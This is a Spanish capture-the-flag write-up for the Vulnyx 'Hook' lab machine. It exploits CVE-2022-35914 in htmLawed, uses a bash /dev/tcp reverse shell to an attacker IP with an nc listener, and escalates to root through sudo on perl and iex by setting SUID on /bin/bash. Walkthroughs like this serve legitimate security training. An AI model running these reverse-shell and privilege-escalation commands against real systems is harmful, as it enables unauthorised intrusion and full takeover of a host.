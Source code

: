```yaml
---
title: Vulnyx - Hook
author: estx
date: 2024-04-25 16:41:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'htmLawed', 'CVE-2022-35914' , 'abuse of privileges']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Hook/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **CVE-2022-35914, abuse of privileges**


### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.64	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```

> Con esto identificamos todos los dispositivos en nuestra red local.

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n 192.168.100.64 -oG puertos`**

  ![](/assets/images/Vulnyx/Easy/Hook/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando

* **`nmap -p22,80,4369 -sCV 192.168.100.64 -oN versions`**

  ![](/assets/images/Vulnyx/Easy/Hook/02-versions.png)

> Lo que más llama la atención es el directorio **`htmLawed`**

c. Si investigamos más sobre **htmLawed** llegamos a este [post](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/) en el que nos mencionar el **CVE-2022-35914**. El directorio al que acceden es `/vendor/htmlawed/htmLawed/htmLawedTest.php`, sin embargo, si nos fijamos, el directorio listado en el archivo **robots.txt** es **htmLawed** por lo que podemos intuir que únicamente debemos visitar el fichero  **htmLawedTest.php**.


![](/assets/images/Vulnyx/Easy/Hook/03-url.png)

* Si seguimos las indicaciones del [post](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/), veremos que podemos modificar un hook con el fin de ejecutar comandos

    ![](/assets/images/Vulnyx/Easy/Hook/04-config.png)

    ![](/assets/images/Vulnyx/Easy/Hook/05-output.png)


d. Nos entablamos una reverse shell

```bash
❯ cat index.html

#!/bin/bash

bash -i >& /dev/tcp/192.168.100.55/4444 0>&1
---------------------------------------------

❯ python -m http.server 80

---------------------------------------------

❯ nc -lvnp 4444
```

> Con esto lo que hacemos es servir el archivo `index.html`, para que al ser requerido por la máquina víctima se ejecute el código **.sh**

* Hacemos que la máquina víctima solicite el archivo

![](/assets/images/Vulnyx/Easy/Hook/06-command.png)

![](/assets/images/Vulnyx/Easy/Hook/07-reverse.png)


### Escalada de Privilegios 💹

1. Hacemos el tratamiento de la TTY para trabajar de manera más cómoda con la reverse shell

```bash
bash-5.2$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
bash-5.2$ ^Z
[1]  + 66303 suspended  nc -lvnp 4444
❯ stty raw -echo;fg
[1]  + 66303 continued  nc -lvnp 4444
                                     reset xterm

bash-5.2$ export TERM=xterm-256color
bash-5.2$ source  /etc/skel/.bashrc 
www-data@hook:/var/www/html/htmLawed$
```

2. Listamos los privilegios a nivel de sudoers de este usuario

```bash
www-data@hook:/var/www/html/htmLawed$ sudo -l
User www-data may run the following commands on hook:
    (noname) NOPASSWD: /usr/bin/perl
```

* Como podemos ejecutar **perl** como el usuario noname ejecutaremos un comando para spawnear una bash

```bash
www-data@hook:/var/www/html/htmLawed$ sudo -u noname /usr/bin/perl -e 'exec "/bin/bash";'
bash-5.2$ whoami
noname
```

3. Ahora, vemos de nuevo los permisos a nivel de sudoers de este usuario

```bash
bash-5.2$ sudo -l

User noname may run the following commands on hook:
    (root) NOPASSWD: /usr/bin/iex
```

> **iex**: Es una consola interactiva para el lenguaje Elixir
{: .prompt-info }


* Al investigar una forma de ejecutar comando en Elixir obtenemos esto:

```bash
System.cmd("whoami", [])  -> Comando sin argumentos
System.cmd("ls", ["la"]) -> Comando con argumentos
```


4. Lo que haremos es otorgar permiso **SUID** a la `/bin/bash` y, como este comando lo ejecutaremos como root, cualquier usuario podrá spawnear una bash como el usuario root sin necesidad de otorgar una contraseña

```bash
iex(1)> System.cmd("chmod", ["+s", "/bin/bash"])
{"", 0} -> El `0` nos indica que el comando se ejecutó exitosamente
```

5. Por último nos salimos de esta consola interactiva con `Ctrl` + `c` y luego poniendo `a` y ejecutamos **bash -p**

```bash
iex(2)> 
BREAK: (a)bort (A)bort with dump (c)ontinue (p)roc info (i)nfo
       (l)oaded (v)ersion (k)ill (D)b-tables (d)istribution
a
----------------------------------------------------------------
bash-5.2$ bash -p
bash-5.2# whoami
root
```
